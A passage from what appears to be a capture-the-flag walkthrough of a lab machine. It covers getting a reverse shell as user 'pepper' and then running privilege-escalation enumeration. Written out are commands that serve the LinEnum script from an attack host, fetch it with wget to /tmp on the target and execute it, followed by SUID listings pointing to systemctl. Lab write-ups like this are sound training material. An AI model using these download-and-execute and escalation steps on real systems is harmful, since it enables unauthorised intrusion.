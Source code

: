 We’re pepper! I tried running a few commands, but something seems to be wrong with my shell, so instead I sent a new reverse shell \(done in the same way as earlier\) back to my attack machine and upgraded it to a fully interactive shell.

Now we can view the user.txt flag.

![](../images/max/686/1*MijyVJ7Njc-gyI3Jq0n4Sw.png)

To view the root.txt flag, we need to escalate our privileges to root.

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, change to the /tmp directory where we have write privileges and download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.12:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

We get back the following result.

```text
.....

[-] SUID files:
-rwsr-xr-x 1 root root 30800 Aug 21  2018 /bin/fusermount
-rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount
-rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping
-rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
-rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount
-rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 140944 Jun  5  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn.....
```
